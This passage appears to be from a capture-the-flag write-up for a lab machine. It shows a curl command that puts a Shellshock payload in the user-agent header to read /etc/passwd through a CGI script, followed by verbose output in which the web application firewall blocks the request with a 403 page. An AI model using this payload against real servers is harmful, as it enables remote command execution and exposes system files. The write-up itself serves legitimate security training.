 When we try to exploit shellshock however, the payload is most likely caught by the WAF and blocked. We get a 403 response page:

```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" https://beehive.ariekei.htb/cgi-bin/stats -k -v
*   Trying 10.10.99.5...
* Connected to beehive.ariekei.htb (10.10.99.5) port 443 (#0)
* found 173 certificates in /etc/ssl/certs/ca-certificates.crt
* found 697 certificates in /etc/ssl/certs
* ALPN, offering http/1.1
* SSL connection using TLS1.2 / ECDHE_RSA_AES_128_GCM_SHA256
* 	 server certificate verification SKIPPED
* 	 server certificate status verification SKIPPED
* error fetching CN from cert:The requested data were not available.
* 	 common name:  (matched)
* 	 server certificate expiration date OK
* 	 server certificate activation date OK
* 	 certificate public key: RSA
* 	 certificate version: #3
* 	 subject: C=US,ST=Texas,L=Dallas,OU=Ariekei
* 	 start date: Sun, 24 Sep 2017 01:37:05 GMT
* 	 expire date: Wed, 08 Feb 2045 01:37:05 GMT
* 	 issuer: C=US,ST=Texas,L=Dallas,OU=Ariekei
* 	 compression: NULL
* ALPN, server accepted to use http/1.1
> GET /cgi-bin/stats HTTP/1.1
> Host: beehive.ariekei.htb
> Accept: */*
> user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'
> 
< HTTP/1.1 403 Forbidden
< Server: nginx/1.10.2
< Date: Tue, 26 Sep 2017 18:27:58 GMT
< Content-Type: text/html
< Content-Length: 1618
< Connection: keep-alive
< ETag: "59c335fa-652"
< Last-Modified: Thu, 21 Sep 2017 03:46:02 GMT
< 

<pre>
                          oooo$$$$$$$$$$$$oooo
                      oo$$$$$$$$$$$$$$$$$$$$$$$$o
                   oo$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$o         o$   $$ o$
   o $ oo        o$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$o       $$ $$ $$o$
oo $ $ "$      o$$$$$$$$$    $$$$$$$$$$$$$    $$$$$$$$$o       $$$o$$o$
"$$$$$$o$     o$$$$$$$$$      $$$$$$$$$$$      $$$$$$$$$$o    $$$$$$$$
  $$$$$$$    $$$$$$$$$$$      $$$$$$$$$$$      $$$$$$$$$$$$$$$$$$$$$$$
  $$$$$$$$$$$$$$$$$$$$$$$    $$$$$$$$$$$$$    $$$$$$$$$$$$$$  """$$$
   "$$$""""$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     "$$$
    $$$   o$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     "$$$o
   o$$"   $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$       $$$o
   $$$    $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$" "$$$$$$ooooo$$$$o
  o$$$oooo$$$$$  $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$   o$$$$$$$$$$$$$$$$$
  $$$$$$$$"$$$$   $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$     $$$$""""""""
 """"       $$$$    "$$$$$$$$$$$$$$$$$$$$$$$$$$$$"      o$$$
            "$$$o     """$$$$$$$$$$$$$$$$$$"$$"         $$$
              $$$o          "$$""$$$$$$""""           o$$$
               $$$$o                                o$$$"
                "$$$$o      o$$$$$$o"$$$$o        o$$$$
                  "$$$$$oo     ""$$$$o$$$$$o   o$$$$""
                     ""$$$$$oooo  "$$$o$$$$$$$$$"""
                        ""$$$$$$$oo $$$$$$$$$$
```